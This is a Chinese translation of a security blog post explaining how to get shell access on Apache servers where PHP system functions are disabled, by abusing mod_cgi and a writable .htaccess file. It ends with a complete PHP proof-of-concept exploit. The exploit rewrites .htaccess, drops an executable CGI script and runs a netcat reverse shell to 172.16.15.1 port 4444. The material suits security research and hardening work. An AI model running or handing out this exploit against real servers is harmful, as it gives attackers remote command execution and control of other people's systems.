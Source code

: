 > 原文链接: https://www.anquanke.com//post/id/83859 


# 禁用php的system函数以获取shell访问


                                阅读量   
                                **107008**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：360安全播报
                                <br>原文地址：[https://blog.asdizzle.com/index.php/2016/05/02/getting-shell-access-with-php-system-functions-disabled/](https://blog.asdizzle.com/index.php/2016/05/02/getting-shell-access-with-php-system-functions-disabled/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t01d418732711795a90.png)](https://p2.ssl.qhimg.com/t01d418732711795a90.png)

您可以禁用PHP函数

如果你拥有一个运行着PHP的Web服务器,禁用一些PHP的危险功能可能是一个好主意,其中有些功能也许是你的网站所不需要的 。如果攻击者设法在你的服务器上运行恶意代码,那么限制一些函数提供功能可能会减少攻击所带来的危害。幸运的是,PHP为我们提供了一种简单的方法来做到这一点。你只需要做到对你想要禁用的函数执行disable_functions 功能。然而,在某些情况下,系统命令的执行仍然是有可能的,我会用一个启用了mod_cgi的.htaccess文件作为例子给你解释。

这种方法只适用于一部分的Apache服务器配置,我敢肯定我不是第一个发现这个问题的人。不管怎样,这里列举了3项需要满足的最低要求:

需要启用mod_cgi;

需要允许htaccess文件;

你必须能够写入文件。

背景知识:

什么是mod_cgi?

其中CGI代表通用网关接口。它允许Web服务器与可执行文件进行交互。这意味着你可以用C,Perl或者Python来写Web应用程序。即使全部由shell脚本组成Web应用程序也是可能的。你还可以把PHP作为一个CGI程序来运行,而不是作为一个模块运行。

什么是htaccess文件?

Apache支持所谓的虚拟主机。虚拟主机通常用于在一台机器上运行多个网站或者子域。这些内部文件中,你可以按照自己的喜好更改网站的Web根目录或Apache模块的特定选项中的多种设置。有时候在一个共享的托管环境中,用户被允许按照自己的喜好定制自己的网站,但是他们没有更改同一主机上的其他用户设置的能力。这时候htaccess文件就派上用场了。它是让你改变在每个目录下的很多虚拟主机设置的基础。通常使用htaccess能够更好更快地在虚拟主机文件中直接做到这点,只要你有机会获得它们。

我们如何利用呢?

有了这些知识之后,我们如何才能利用它们拿到系统shell访问权限,即使在PHP中是被禁用的? 首先我们要检查上述所有的要求是否得到了满足。正如我上面所说的,有的时候,事实并非如此。 但是,如果我们足够幸运的话,我们可以尝试一切写入或启用来达到目的。我们试图达到以下目的:

我们希望能够在当前目录下执行CGI脚本。这需要利用一个htaccess文件中的Options +ExecCGI 来完成。 mod_cgi必须能够区分实际的CGI脚本和其它的文件。为此,我们需要指定一些它能识别的扩展。可以是任何你想要的扩展,例如.dizzle。我们使用在 .htaccess 文件中的AddHandler cgi-script .dizzle做到这一点。 现在,我们能够上传以.dizzle后缀结尾的shell脚本,并且利用PHP 的chmod命令('shell.dizzle',0777)使它成为可执行文件。当我们的脚本有输出之后,首先我们必须要设置一个与内容同类型的头部,否则Apache将显示StatusCode 500错误。我们这样做只是为了把echo -ne“Content-Type:text / html n  n”作为我们的shell脚本中的第一输出。之后,你可就以完成几乎所有你可以用普通shell脚本所做到的事情。

只是看这些理论的东西比较无聊,下面是一个PoC攻击实例:





```
&lt;?php
$cmd = "nc -c '/bin/bash' 172.16.15.1 4444"; //command to be executed
$shellfile = "#!/bin/bashn"; //using a shellscript
$shellfile .= "echo -ne "Content-Type: text/html\n\n"n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
`{`
echo "$text: " . ($condition ? $yes : $no) . "&lt;br&gt;n";
`}`
if (!isset($_GET['checked']))
`{`
@file_put_contents('.htaccess', "nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
`}`
else
`{`
$modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
$writable = is_writable('.'); //current dir writable?
$htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
checkEnabled("Is writable",$writable,"Yes","No");
checkEnabled("htaccess working",$htaccess,"Yes","No");
if(!($modcgi &amp;&amp; $writable &amp;&amp; $htaccess))
`{`
echo "Error. All of the above must be true for the script to work!"; //abort if not
`}`
else
`{`
checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGInAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
echo "Executing the script now. Check your listener &lt;img src = 'shell.dizzle' style = 'display:none;'&gt;"; //call the script
`}`
`}`
?&gt;
```




